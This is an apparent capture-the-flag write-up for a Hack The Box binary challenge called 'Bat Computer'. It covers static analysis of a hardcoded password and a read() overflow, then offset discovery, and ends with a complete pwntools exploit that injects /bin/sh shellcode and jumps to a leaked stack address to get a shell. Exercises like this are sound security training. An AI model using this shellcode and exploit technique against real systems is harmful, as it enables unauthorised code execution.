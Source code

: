 # Bat Computer
## Behaviour
When running the binary, the user in asked to either track or chase Joker. When selecting track, a memory address is given for the location of Joker. When chase is selected, a prompt is given for the password. The password is easily determined through static analysis of the binary [1]:

## Static Analysis
### Ghidra decompilation:

```c
undefined8 FUN_001011ec(void)

{
  int iVar1;
  int local_68;
  char acStack_64 [16];
  undefined auStack_54 [76];
  
  FUN_001011a9();
  while( true ) {
    while( true ) {
      memset(acStack_64,0,0x10);
      printf(
            "Welcome to your BatComputer, Batman. What would you like to do?\n1. Track Joker\n2. Cha se Joker\n> "
            );
      __isoc99_scanf(&DAT_00102069,&local_68);
      if (local_68 != 1) break;
      printf("It was very hard, but Alfred managed to locate him: %p ",auStack_54);
    }
    if (local_68 != 2) break;
    printf("Ok. Let\'s do this. Enter the password: ");
    __isoc99_scanf(&DAT_001020d0,acStack_64);
    iVar1 = strcmp(acStack_64,"b4tp@$$w0rd!");                           // [1]
    if (iVar1 != 0) {
      puts("The password is wrong.\nI can\'t give you access to the BatMobile!");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    printf("Access Granted. \nEnter the navigation commands: ");
    read(0,auStack_54,0x89);                             //[2]
    puts("Roger that!");
  }
  puts("Too bad, now who\'s gonna save Gotham? Alfred?");
  return 0;
}
```
### Vulnerability

The above code uses the `read()` function [2], which reads in more bytes than the allocated buffer of the variable it's reading into.

## Test Input

```bash
└─$ msf-pattern_create -l 100               
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
This pattern is then entered as input for the navigation commands:

```python
io = start()

io.recvuntil(b"> ")
io.sendline(b"2")

io.recvuntil(b"password: ")
io.sendline(b"b4tp@$$w0rd!")
io.recvuntil(b"Enter the navigation commands: ")
payload = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
io.sendline(payload)
io.recvuntil(b"> ")
io.sendline(b"3")

io.interactive()
```
## Dynamic Analysis
The script is ran locally with debugging using `./test.py LOCAL GDB`
After the segmentation fault has occurred, the contents of the registers were displayed using `i r` (info registers):

```bash
Program received signal SIGSEGV, Segmentation fault.
0x0000558d0c63d31f in ?? ()
[...]
rbp            0x3763413663413563  0x3763413663413563
[...]
```
The contents of `ebp` were then used to determine the offset of `ebp`. 

```bash
└─$ msf-pattern_offset -q 0x3763413663413563
[*] Exact match at offset 76
```
## Exploitation
A script was created to parse the output for the address given when selecting 'Track Joker', and used with padding to overwrite `rip` with that address, which has an offset +8 bytes from `rbp`. Shellcode was added to the beginning of the payload, so that it is executed when the `eip` returns the program to the beginning of the buffer:

```python
io = start()

io.recvuntil(b"> ")
io.sendline(b"1")
output = io.recvuntil(b"> ")
print(output)
io.sendline(b"2")

addr = output[54:66] # parse address from output
addr = int(addr, 16) # convert address to hex
addr = p64(addr,endian="little") # set address endianness to little
print(addr)

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
# x86_64 execveat("/bin//sh") shellcode from http://shell-storm.org/shellcode/files/shellcode-905.html by ZadYree, vaelio, DaShrooms
shellcode_len = len(shellcode) # shellcode length
padding = b"A" * ( 84 - shellcode_len) # create necessary padding
io.recvuntil(b"password: ")
io.sendline(b"b4tp@$$w0rd!")
io.recvuntil(b"Enter the navigation commands: ")
payload = shellcode+padding+addr # concatenated payload
io.sendline(payload)
io.recvuntil(b"> ")
io.sendline(b"3")	 # erroneous input to break from the program loop

io.interactive()
```
The script was then executed with the live IP and Port for the challenge:
`./solution.py HOST=[ip addr] PORT=[port]`
```txt
b'It was very hard, but Alfred managed to locate him: 0x7ffdfb215ac4\nWelcome to your BatComputer, Batman. What would you like to do?\n1. Track Joker\n2. Chase Joker\n> '
[*] Switching to interactive mode
Too bad, now who's gonna save Gotham? Alfred?
$ ls
batcomputer
flag.txt
$ cat flag.txt
HTB{[flag]}
$
```